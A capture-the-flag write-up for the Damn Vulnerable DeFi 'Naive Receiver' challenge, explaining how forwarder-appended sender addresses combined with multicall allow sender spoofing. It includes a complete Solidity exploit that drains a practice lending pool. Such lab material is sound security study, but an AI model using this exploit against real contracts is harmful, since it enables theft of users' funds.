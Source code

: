 You can check the challenge [here](https://www.damnvulnerabledefi.xyz/challenges/naive-receiver/).

First we know that the pool implements meta-transactions by integrating a forwarder, this type of transaction gives the ability of signing transactions off-chain and using them after on-chain, forwarded by other contracts (implementing the EIP-712) which helps to reduce the number of transactions in the blockchain and to save gas. Furthermore, the pool also uses multicall, which allows making multiple function calls to the contract in a single transaction to save gas.

---

The forwarder appends the address of the signer at the end of the passed payload, which can be seen here:

```solidity
function execute(Request calldata request, bytes calldata signature) public payable returns (bool success) {
        _checkRequest(request, signature);

        nonces[request.from]++;

        uint256 gasLeft;
        uint256 value = request.value; // in wei
        address target = request.target;
        bytes memory payload = abi.encodePacked(request.data, request.from); // !! This is where the address of the sender is appended to the payload.
        uint256 forwardGas = request.gas;
        assembly {                                     
            success := call(forwardGas, target, value, add(payload, 0x20), mload(payload), 0, 0) 
            gasLeft := gas()
        }

        if (gasLeft < request.gas / 63) {
            assembly {
                invalid()
            }
        }
    }
```

The pool then extracts that sender to work with as if it were the actual `msg.sender` :

```solidity
function _msgSender() internal view override returns (address) {
        if (msg.sender == trustedForwarder && msg.data.length >= 20) {
            return address(bytes20(msg.data[msg.data.length - 20:])); // This is the address that the forwarder appends and the pool uses it as if it were the msg.sender
        } else {
            return super._msgSender();
        }
    }
```

By combining the forwarder that appends the sender at the end of the payload, and the multicall function that uses the data as it is, we can create a payload with the feeReceiver's address appended to the end of the calldata.

To drain the contract we need:

1. Call `withdraw(uint256 amount, address receiver)`, `amount`  being the pool’s balance and the `receiver` being the recovery account given in the challenge. But the catch is, the return of `_msgSender()` should be the `feeReceiver` , as he owns the tokens deposited in the pool at construction.
2. `_msgSender()`  can return two different values, one is the normal `msg.sender` given in that context, the other option is the address that the forwarder appends when making the call to the pool.
    
    ```solidity
    Line: 99 return address(bytes20(msg.data[msg.data.length - 20:]));
    ```
    
3. The address that the forwarder appends is the `from` field in the request data structure, which cannot be manipulated.
4. However, we can use `multicall(bytes[])` to pass a crafted payload that contains all the parameters to call `withdraw(uint256,address)` function, and add the address of the `feeReceiver` at the end of it.
    
    ```solidity
    Line: 96 if (msg.sender == trustedForwarder && msg.data.length >= 20)
    ```
    
    The condition above should be true for our attack to work, so our transaction will be processed by the forwarder.
    

The solution would be like the following:

```solidity
function test_naiveReceiver() public checkSolvedByPlayer {

        // First we should empty the flashLoan contract (or the receiver)
        for(uint i = 0; i < 10; i++) { 
            pool.flashLoan(receiver, address(weth), 0, "");
        }

        bytes[] memory multicallArgument = new bytes[](1);

        // The attack payload contains the call to the withdraw function with the appropriate parameters.
        bytes memory attackPayload = abi.encodeWithSignature("withdraw(uint256,address)", weth.balanceOf(address(pool)), recovery);

        // Appending the feeReceiver (which is the deployer) address at the end of the payload                                            
        attackPayload = abi.encodePacked(attackPayload, abi.encode(deployer));

        multicallArgument[0] = attackPayload;

        bytes memory finalPayload = abi.encodeWithSignature("multicall(bytes[])", multicallArgument);

        // The data structure that the forwarder uses
        BasicForwarder.Request memory attackRequest;
        attackRequest.from = player;
        attackRequest.target = address(pool);
        attackRequest.value = 0;
        attackRequest.nonce = 0;
        attackRequest.data = finalPayload;
        attackRequest.gas = gasleft();
        attackRequest.deadline = block.timestamp + 1 days;

        bytes32 structhash = forwarder.getDataHash(attackRequest);
        bytes32 digest = keccak256(
            abi.encodePacked(
                "\x19\x01",
                forwarder.domainSeparator(),
                structhash
            )
        );
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, digest);
        // All the above were steps to sign a transaction following the EIP-712 standard.

        bytes memory signature = abi.encodePacked(r, s, v);

        forwarder.execute(attackRequest, signature); // Execute the forwarder with our payload.

        console.log(weth.balanceOf(address(pool))); // 0 - The Attack was successful
    }
```
